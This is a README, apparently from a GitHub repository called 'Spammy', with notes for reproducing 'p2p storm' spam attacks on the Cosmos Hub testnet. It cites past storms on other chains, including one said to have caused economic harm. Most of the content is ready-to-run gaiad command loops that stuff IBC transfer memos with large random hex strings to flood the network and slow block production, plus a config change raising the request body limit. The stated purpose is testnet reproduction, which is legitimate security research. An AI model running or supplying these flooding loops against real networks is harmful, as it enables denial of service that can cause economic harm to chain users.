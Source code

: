 # Spammy

## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```



 Hub testnet blcok range 3881725 to 3881733

